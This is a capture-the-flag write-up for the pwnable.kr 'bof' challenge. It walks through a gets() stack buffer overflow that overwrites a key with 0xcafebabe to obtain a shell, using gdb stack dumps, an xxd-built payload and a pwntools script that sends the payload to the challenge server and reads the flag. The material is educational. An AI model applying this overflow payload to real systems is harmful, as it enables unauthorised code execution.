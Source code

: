 # pwnable.kr: bof

In this program,
1. The method func is called with a key of 0xdeadbeef
2. User input is then used to fill a char array via gets()
3. The key is then compared with 0xcafebabe, if it matches, we get a shell
We want to overwrite the value of the key to 0xcafebabe, so that the comparison succeeds. This can be done by supplying more than 32 characters when gets() read in input.

We run the program with gdb to observe the stack value
```
$ gdb bof
(gdb) break func
(gdb) run
(gdb) x/40x $esp
0xbffff300:	0x8000032e	0x00000000	0x00c30000	0x00000001
0xbffff310:	0xbffff571	0x0000002f	0xbffff36c	0x8000073a
0xbffff320:	0x80001ff4	0x800006b0	0x00000001	0x8000049d
0xbffff330:	0xb7fc73e4	0x00000016	0x80001ff4	0x800006d1
0xbffff340:	0xffffffff	0xb7e531c6	0xbffff368	0x8000069f
0xbffff350:	0xdeadbeef	0x00000000	0x800006b9	0xb7fc6ff4
0xbffff360:	0x800006b0	0x00000000	0x00000000	0xb7e394e3
0xbffff370:	0x00000001	0xbffff404	0xbffff40c	0xb7fdc858
0xbffff380:	0x00000000	0xbffff41c	0xbffff40c	0x80000000
0xbffff390:	0x800002c0	0xb7fc6ff4	0x00000000	0x00000000
```

We observe our 0xdeadbeef at 0xbffff350. We proceed with step, and input "aaaaaaaa" as test.
```
(gdb) step
Single stepping until exit from function func,
which has no line number information.
overflow me : 
aaaaaaaa
Nah..
0x8000069f in main ()
(gdb) x/40x $esp-0x50
0xbffff300:	0x800007a3	0x00000000	0x00c30000	0x00000001
0xbffff310:	0xbffff571	0x0000002f	0xbffff36c	0x61616161
0xbffff320:	0x61616161	0x80000600	0x00000001	0x8000049d
0xbffff330:	0xb7fc73e4	0x00000016	0x80001ff4	0x7763aa00
0xbffff340:	0xffffffff	0xb7e531c6	0xbffff368	0x8000069f
0xbffff350:	0xdeadbeef	0x00000000	0x800006b9	0xb7fc6ff4
0xbffff360:	0x800006b0	0x00000000	0x00000000	0xb7e394e3
0xbffff370:	0x00000001	0xbffff404	0xbffff40c	0xb7fdc858
0xbffff380:	0x00000000	0xbffff41c	0xbffff40c	0x80000000
0xbffff390:	0x800002c0	0xb7fc6ff4	0x00000000	0x00000000
```

We observe that our input of "aaaaaaaa" have been written from 0xbffff31c onwards. We want to input 13 blocks of "aaaa" followed by our 0xcafebabe in char value.

To convert hex to ascii: [http://stackoverflow.com/questions/13160309/conversion-hex-string-into-ascii-in-bash-command-line]
```
$ echo 61616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161cafebabe | xxd -r -p
```

Supply this to the program, however, it tells us that stack smashing is detected. But, the "Nah..." is still printed out! Perhaps something is wrong with the piping...
```
$ (echo 61616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161cafebabe | xxd -r -p) | ./bof
*** stack smashing detected ***: /home/bof/bof terminated
overflow me : 
Nah..
```

Let's try again with pwntools [http://docs.pwntools.com]
```
#!/usr/bin/python

from pwn import *

# open connection
#conn = process('./bof') # local process for debugging
conn = remote('pwnable.kr', 9000)

# prepare payload
payload = 'aaaa' * 13 + pack(0xcafebabe, 'all', 'little', True)
print 'Payload: ', payload

# send payload
print 'Sending payload...'
conn.sendline(payload)
print 'Sending ls...'
conn.sendline('ls')

# get output
print conn.recvline()
```
The ouput of ls shows us only the executable bof exist in the directory, where is the flag :( With ls -al instead, we see that the flag does exist. Let's change our ls to cat flag

```
$ ./bof.py
[+] Opening connection to pwnable.kr on port 9000: Done
Payload:  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe�
Sending payload...
Sending ls...
daddy, I just pwned a buFFer :)

[*] Closed connection to pwnable.kr port 9000
```